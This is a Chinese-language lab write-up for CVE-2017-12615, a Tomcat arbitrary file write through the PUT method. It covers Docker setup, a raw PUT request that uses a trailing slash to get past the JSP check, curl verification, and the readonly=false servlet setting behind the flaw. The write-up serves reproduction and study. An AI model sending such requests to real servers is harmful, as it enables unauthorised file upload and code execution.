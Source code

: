 # Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

## 影响版本

+ Tomcat：v8.5.19

## 环境搭建

```bash
docker build -t cve-2017-12615 .
docker run -p 8080:8080 -d cve-2017-12615
```
运行完成后访问http://your-ip:8080即可看到Tomcat的Example页面。

## 漏洞复现

### 1.构造PUT数据包创建文件

```bash
PUT /a.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

hello world
```

### 2.访问页面

```bash
curl your-ip:8080/a.jsp

# hello world%
```

## 漏洞原理

参考：
+ http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
+ https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
+ https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：
```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```
虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用/）来绕过了限制。